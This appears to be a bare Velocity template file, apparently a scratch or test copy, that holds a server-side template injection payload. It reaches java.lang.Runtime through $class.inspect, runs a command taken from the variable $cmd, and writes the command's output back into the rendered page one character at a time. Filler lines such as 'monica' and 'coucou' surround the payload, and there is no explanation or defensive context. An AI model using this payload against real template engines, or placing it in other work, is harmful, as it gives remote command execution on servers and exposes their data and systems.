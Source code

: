 #set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec($cmd))
$ex.waitFor()
#set($out=$ex.getInputStream())
#set( $monkey = 'monica' )
$monkey
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
"coucou"
